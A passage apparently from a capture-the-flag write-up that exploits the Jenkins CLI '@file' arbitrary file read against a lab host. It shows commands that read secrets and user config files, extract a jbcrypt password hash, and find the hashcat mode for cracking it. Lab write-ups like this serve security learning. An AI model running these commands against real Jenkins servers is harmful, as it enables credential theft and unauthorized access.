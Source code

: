 During installation of Jenkins it will store initial administrator password for [unlocking-jenkins](https://www.jenkins.io/doc/book/installing/linux/#unlocking-jenkins) in `/var/lib/jenkins/secrets/initialAdminPassword`. It will need sudo permission and in addition to that, the Jenkins instance is already installed. When we try it we get `No such file` error.

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' version @/var/lib/jenkins/secrets/initialAdminPassword

ERROR: No such file: /var/lib/jenkins/secrets/initialAdminPassword
java -jar jenkins-cli.jar version
Outputs the current version.
```

We also know that there is user information stored in users/users.xml so we read that too. Here using the connect-node command to get all lines of file, version script to one line only. Reference to users.xml [https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-1072](https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-1072).

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' connect-node @/var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

Here we got jennifer directory as `jennifer_12108429903186576833` and we know it will contain the users `config.xml`.

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' connect-node @/var/jenkins_home/users/jennifer_12108429903186576833/config.xml
[OMITTED]
      <passwordHash>#jbcrypt:[OMITTED]</passwordHash>:
[OMITTED]
```

And we get a `jbcrypt` hash.

Checking Hashcat help we can look for the hash-mode.

```shell
labadmin@labmachine:~/builder$ hashcat --help | grep bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```
